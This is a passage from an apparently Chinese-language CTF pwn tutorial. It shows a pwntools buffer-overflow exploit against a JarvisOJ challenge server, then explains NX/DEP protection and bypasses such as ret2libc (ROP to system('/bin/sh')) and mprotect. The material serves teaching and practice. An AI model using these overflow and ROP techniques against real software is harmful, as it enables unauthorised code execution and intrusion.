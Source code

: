 尝试发现 **0x400d20** 才是flag的真实位置。

##### EXP：

```python
from pwn import *
context.log_level = 'debug'

p = remote("pwn.jarvisoj.com",9877)
p.recvuntil("Hello!\nWhat's your name? ")
offset = 0x218
p.sendline('a' * offset + p64(0x400d20))
p.recvuntil("Please overwrite the flag: ")
p.sendline()
p.interactive()
```

### 二、No-eXecute

No-eXecute即NX保护 (不可执行）的意思，NX（window上称为DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。

gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加-z execstack参数。

开启NX保护，GNU\_STACK权限为RWE(可读、可写、可执行)：

![image-20220202100935288](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-25218da9eaf8c4047388de2a0bf7b441eb417a6e.png)

关闭NX保护，GNU\_STACK权限只有RW（不可执行）：

![image-20220202100858350](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-718dd99f5cb520e732a21dcf4017e37e068ddf13.png)

### 绕过方法

**1、ret2libc攻击**

**2、修改分配页面的保护级别**

- - - - - -

### 1.ret2libc攻击

**ret2libc** 全称为 **return to libc** ，即返回到libc库。由于栈和堆均不可执行，使我们无法直接向栈或堆注入shellcode，然后跳转到起始位置开始执行。由此 **ret2libc** 攻击方式应运而生。 **ret2libc** 是利用程序现有的代码片段构造 **ROP链** 使程序返回到libc库中去执行libc中的函数，比如 **system('/bin/sh')** 。因为一般程序默认开启NX保护，所以 **ret2libc** 是pwn中最常用最有效的方法之一。

*&lt;u&gt;因为该方法过于基础常见，就不做例题演示了。&lt;/u&gt;*

### 2.修改分配页面的保护级别

开了NX保护的情况下就只有程序的 .text 段被标记为可执行，而其余的数据段（.data、.bss等）以及栈、堆均为不可执行。libc函数库中有两个函数可以修改分配页面的属性即可以让一部分不可执行的空间修改为可执行，这两个函数分别是 **mprotect** 和 **mmap** 。这里我就只介绍 **mprotect** 函数：

#### mprotect使用：

函数原型：
